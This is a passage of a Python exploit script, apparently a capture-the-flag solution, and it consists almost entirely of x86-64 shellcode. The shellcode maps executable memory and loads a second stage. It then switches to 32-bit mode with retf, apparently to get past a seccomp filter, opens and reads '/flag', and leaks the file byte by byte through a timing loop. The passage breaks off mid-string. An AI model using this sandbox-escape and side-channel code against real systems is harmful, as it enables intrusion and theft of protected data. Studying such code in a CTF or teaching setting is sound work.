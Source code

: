 ```plain
def exp(p,a,b):
    shellcode1 = '''
        mov r10,rbx
        add r10w,0x0140
        xor rdi,rdi
        mov rsi,r10    
        xor rdx,rdx
        add dx,0x1040
        xor rax,rax
        syscall
        jmp r10
    '''
    shellcode2 = '''

        mov rdi,0x40000000
        mov rsi,0x1000
        mov rdx,0x7
        mov r10,0x22
        mov r8,0xFFFFFFFF
        xor r9,r9
        mov rax,0x9
        syscall

        mov rsi,rdi
        xor rdi,rdi
        mov rdx,0x1000
        xor rax,rax
        syscall
        jmp rsi
    '''
    shellcode3_ = '''
        mov r10,0x2300000000
        add rsi,0x13
        add rsi,r10
        push rsi
        retf

        mov esp,0x40000400
        push 0x0067
        push 0x616c662f
        mov ebx,esp
        xor ecx,ecx
        mov edx,0x7
        mov eax,0x5
        int 0x80

        push 0x33
        push 0x40000037
        retf

        mov rdi,rax
        mov rsi,0x40000500
        mov rdx,0x80
        xor rax,rax
        syscall

        push 0
        cmp byte ptr[rsi+{0}],{1}
        jz $-3
        ret 
    '''.format(a,b) if a==0 else '''

        mov r10,0x2300000000
```